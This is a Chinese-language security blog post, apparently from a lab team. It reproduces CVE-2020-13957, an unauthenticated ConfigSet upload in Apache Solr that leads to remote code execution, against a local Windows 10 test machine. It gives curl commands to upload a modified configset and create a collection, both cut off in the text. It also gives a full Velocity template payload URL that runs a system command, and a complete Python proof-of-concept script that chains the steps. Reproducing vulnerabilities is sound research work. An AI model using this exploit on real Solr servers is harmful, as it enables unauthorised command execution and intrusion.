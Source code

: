 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/GRc9kNBvbyafTcN8bl6iAg)

![](https://mmbiz.qpic.cn/mmbiz_png/ewlUV3LaXXKZzibMiaFbaRZU6aiab48xwejV3o9ibSoS2Q0SKGBVDAl5MFUianlLIASDFqpnnuxbcsjuNq6biaOG6S2w/640?wx_fmt=png)

声明：

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失, 均由使用者本人负责, 雷石安全实验室以及文章作者不为此承担任何责任。

![](https://mmbiz.qpic.cn/mmbiz_png/3icWbWr2yiaiaF47iamK55D8c8TnMVeW3ibLicIBBczVkkw2AJ3UzZ5w6BYH37JGibJCZ4asmyz9bb6zVrErEH4b5upibQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4xbpwTPsKpvrMAjQh0ZSzAgpQnspgeREBn3BiaSlrpv7ia66eQqiawN53FU4jRJicpIsMQCk8vxohibFicSbTAGvw0jg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hhIiaBr3rueicPhSibIicCN8CkHy9hPib2OtPibPPRzx6zlQpJ7NBrbPvRP0UmWPN2Hwvhvib82IBK4hegoREsXo77KicA/640?wx_fmt=png)

1、相关简介

![](https://mmbiz.qpic.cn/mmbiz_png/sAEjlHGCAlHzHa8XFM53e3brD9RT318SzvWibG7cOhmx9QuKGtTE0Kjxy0ibTMMalbgM3fNgduPv08n6R80GiczXA/640?wx_fmt=png)

**1.1、漏洞概述**

CVE-2020-13957, 在特定的 Solr 版本中 ConfigSet API 存在未授权上传漏洞, 攻击者利用该漏洞可实现远程代码执行。

**1.2、漏洞利用链**

上传 configset——基于 configset 再次上传 configset(跳过身份检测), 利用新 configset 创造 collection——利用 solrVelocity 模板进行 RCE。

**1.3、影响版本**

Apache Solr 6.6.0 -6.6.5

Apache Solr 7.0.0 -7.7.3

Apache Solr 8.0.0 -8.6.2

![](https://mmbiz.qpic.cn/mmbiz_png/4xbpwTPsKpvrMAjQh0ZSzAgpQnspgeREBn3BiaSlrpv7ia66eQqiawN53FU4jRJicpIsMQCk8vxohibFicSbTAGvw0jg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hhIiaBr3rueicPhSibIicCN8CkHy9hPib2OtPibPPRzx6zlQpJ7NBrbPvRP0UmWPN2Hwvhvib82IBK4hegoREsXo77KicA/640?wx_fmt=png)

2、漏洞复现

![](https://mmbiz.qpic.cn/mmbiz_png/sAEjlHGCAlHzHa8XFM53e3brD9RT318SzvWibG7cOhmx9QuKGtTE0Kjxy0ibTMMalbgM3fNgduPv08n6R80GiczXA/640?wx_fmt=png)

**2.1、漏洞环境**

**solr 下载地址****：**

http://archive.apache.org/dist/lucene/solr/

这次复现使用的是 solr8.0.0 版本

**靶机：**

win10,IP 地址：192.168.94.130

**攻击机：**

kali

![](https://mmbiz.qpic.cn/mmbiz_png/aia5bEeichiciaZrhGA3vlCjw9dNd3gcv3KuzlBC7EW6tXSOVlRiaxRmcVYAFa1XEibbcia3JOXoJyuBABTWIqbrW0bkw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ01FvRCNODcaFwa35ObXRoJxVF3aPzAljmwqB7mRyHn2YJdMzxtSHCw/640?wx_fmt=png)

**2.2、环境搭建**

首先, 在 win10 靶机中解压 solr-8.0.0.zip, 然后在 cmd 中切换到 bin 目录下执行以下命令：

```
solr.cmd start -c
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZrJdtW0t94MNUTjtLFs9dWibHFnJA5xVZxvuyFicSluQOA9OicX4vlTJJw/640?wx_fmt=png)

如果是在 Linux 系统中搭建 solr 环境, 执行的命令为：

```
./solr start -e cloud -force
```

然后在 kali 的浏览器中打开 http://192.168.94.130:8983/,

solr 以 cloud 模式启动, 环境搭建成功.

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ2m9D7icor8zJtuo5lN5Y9mkCxCd7ic3u2Vfmx3cybhCbvd600bOtT5rA/640?wx_fmt=png)

**2.3、漏洞复现**

首先在 kali 中解压 solr-8.0.0.zip, 切换到 server/solr/configsets/_default/conf / 目录, 找到 solrconfig.xml 文件, 并将 velocity.params.resource.loader.enabled 的 false 修改为 true, 即：

```
>${velocity.params.resource.loader.enabled:true}
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZKpmImY2sVHMsatPMOHv6bRvKxD51MCo63gM6SPAhenFxaIdKpw3ic5A/640?wx_fmt=png)

然后在

server/solr/configsets/_default/conf / 目录下打开终端, 执行以下命令将 conf 目录下所有文件打包成一个压缩文件 mytest.zip

```
zip -r - * > mytest.zip
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZMYnKibSibyASmHJianTGSG7rBKetQkH5Axbnty05geGfpfbWWMTHBoichQ/640?wx_fmt=png)

由于 ConfigSet API 存在未授权上传, 可以通过以下命令将 mytest.zip 上传

```
curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://192.168.94.130:8983/solr/admin/configs?action=UPLOAD&
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZGJkIwJD4eYVxZLYI6bLOwzicC4bDhGgJpzcaXorwUqIGMoeGDNznMKA/640?wx_fmt=png)

根据 CREATE 得到的新 configset 创建恶意 collection

```
curl "http://192.168.94.130:8983/solr/admin/collections?action=CREATE&
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ0LQAbfqV6NoNtJibViciaXucT9VWBNFPMhl9V3rkp7v3icXMcVjbeowPZA/640?wx_fmt=png)

在 kali 的浏览器中输入以下地址, 即可利用已上传的 collection 进行远程命令执行, 这里执行的是 whoami

```
http://192.168.94.130:8983/solr/mytest2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ5uaw8Z97a4pAmZFvKAiamkF3AQLKOK43woufAvajULXSQzr8ibRCibtgg/640?wx_fmt=png)

whoami 执行成功了, 漏洞复现成功

![](https://mmbiz.qpic.cn/mmbiz_png/4xbpwTPsKpvrMAjQh0ZSzAgpQnspgeREBn3BiaSlrpv7ia66eQqiawN53FU4jRJicpIsMQCk8vxohibFicSbTAGvw0jg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hhIiaBr3rueicPhSibIicCN8CkHy9hPib2OtPibPPRzx6zlQpJ7NBrbPvRP0UmWPN2Hwvhvib82IBK4hegoREsXo77KicA/640?wx_fmt=png)

3、编写验证 POC

![](https://mmbiz.qpic.cn/mmbiz_png/sAEjlHGCAlHzHa8XFM53e3brD9RT318SzvWibG7cOhmx9QuKGtTE0Kjxy0ibTMMalbgM3fNgduPv08n6R80GiczXA/640?wx_fmt=png)

**3.1、重新搭建环境**

回到 win10 靶机执行以下的 solr 停止命令, 然后将 solr8.0 整个文件夹删除

```
solr stop -p 8983
```

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZJoEKv1LNKicGrILSAKniaibcl8NARicdqa7nCmw3exzS2cJJAV6jPX2ibMg/640?wx_fmt=png)

重复 2.2 的环境搭建过程, 重新搭建漏洞环境, 重新在 win10 中启动 solr（这里试过如果不重新搭建漏洞环境, 再次验证漏洞时会出错）

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZWRthoccaDdVZkc3pcOZAcV3jcweu2RjkMs8TEWciclGzJQXgWaJAlrQ/640?wx_fmt=png)

**3.2、执行编写好的 POC**

先编写一个能验证漏洞存在的简单 POC, 如下：

```
#!/usr/bin/python3
#coding=utf-8


import requests


def testPoc(url):
try:
urls = url + '/solr/admin/configs?action=UPLOAD&name=mytest'
files = {
'file':('mytest.zip',open('mytest.zip','rb'),'application/octet-stream')
}
headers = {
'User-Agent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36'
}
response = requests.post(url=urls,headers=headers,files=files)
if response.status_code == 200:
print('上传成功')
else:
print('上传出错')
urls = url + '/solr/admin/collections?action=CREATE&name=mytest2&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest'
response = requests.get(url=urls,headers=headers)
if response.status_code == 200:
#print(response.text)
print('创建成功')
else:
print('创建失败')


urls = url + '/solr/mytest2/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27whoami%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end'
response = requests.get(url=urls,headers=headers)
if response.status_code == 200:
print(response.text)
print('----------------存在漏洞---------------')
else:
print('----------------不存在漏洞')


except Exception as e:
print(e)


url = 'http://192.168.94.130:8983'
testPoc(url)


print('程序执行结束')
```

将编写好的 poc.py 文件放到 kali 的 mytest.zip 文件所在目录下

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZiaK7Pa5glbq18kfB4jyBCUBbdEyBkIIwlWl6cHv0QRvRY2xOplAhOAw/640?wx_fmt=png)

在当前目录打开终端, 执行编写好的 python 脚本验证漏洞即可：

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZuPlIiaE30vibsxQ4usDaO9j64rahDHPjXffbiaR98tJ6GzUQMd44gEcXQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/4xbpwTPsKpvrMAjQh0ZSzAgpQnspgeREBn3BiaSlrpv7ia66eQqiawN53FU4jRJicpIsMQCk8vxohibFicSbTAGvw0jg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/hhIiaBr3rueicPhSibIicCN8CkHy9hPib2OtPibPPRzx6zlQpJ7NBrbPvRP0UmWPN2Hwvhvib82IBK4hegoREsXo77KicA/640?wx_fmt=png)

4、总结

![](https://mmbiz.qpic.cn/mmbiz_png/sAEjlHGCAlHzHa8XFM53e3brD9RT318SzvWibG7cOhmx9QuKGtTE0Kjxy0ibTMMalbgM3fNgduPv08n6R80GiczXA/640?wx_fmt=png)

本次漏洞复现中遇到不少问题, 比如其他大佬的漏洞复现文章中, 有一个根据 UPLOAD 的配置, 创建一个新的配置的命令, 这里并没有执行也复现成功了。然后每次验证过漏洞存在时, 都需要重新搭建环境等等。。菜鸟继续加油哇～

end

  

![](https://mmbiz.qpic.cn/mmbiz_png/RXib24CCXQ0icgJnwz55vaCiatpsqriaW2GZ7rRw3kbvpDFicsKcLcp9Q7tYiaMwLANvcHAoByTiaGaus4HBukgfIXt9g/640?wx_fmt=png)
